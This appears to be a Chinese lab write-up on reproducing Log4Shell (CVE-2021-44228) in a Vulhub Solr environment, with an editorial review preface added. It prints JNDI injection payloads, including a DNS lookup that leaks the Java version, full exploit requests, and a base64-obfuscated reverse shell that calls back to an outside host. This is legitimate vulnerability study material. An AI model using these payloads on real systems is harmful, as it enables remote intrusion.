






## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Body2.0–2.14.1; Solr8.11.0 uses2.14.1; JDK/gadget and network egress conditions not specified

代码与实验材料：Request and DNS Java-version observation; execution commands partially screenshots; DNS callback alone not RCE proof

来源证据范围：Apache security URL, Lunasec, xz and exploit repository cited

- **事实待核（1）**：No remediation or supported branch matrix; version lower bound should verify prereleases。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（2）**：Hard-coded callback values and screenshot-only execution output reduce reproducibility。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Apache Log4j2 lookup JNDI 注入漏洞 CVE-2021-44228

## 漏洞描述

Apache Log4j2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

CVE-2021-44228常被称为`log4shell`。

参考链接：

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

Payloads：

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Log4Shell.md

## 环境搭建

Apache Log4j2 不是一个特定的Web服务，而仅仅是一个第三方库，我们可以通过找到一些使用了这个库的应用来复现这个漏洞，比如Apache Solr。

Vulhub执行如下命令启动一个Apache Solr 8.11.0，其依赖了Log4j 2.14.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到Apache Solr的后台页面。

## 漏洞复现

`${jndi:ldap://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```




我们可以在DNS日志平台收到相关日志，显示出当前Java版本：




实际利用JNDI注入漏洞，可以使用[这个工具](https://github.com/welk1n/JNDI-Injection-Exploit)。




利用完毕后，可见`touch /tmp/awesome_poc`已经成功被执行：




### 反弹shell

构造反弹shell命令：

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}
```




构造Payload：

```
GET /solr/admin/cores?action=${jndi:ldap://192.168.174.128:1389/chof5b} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

监听9999端口，接收反弹shell：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
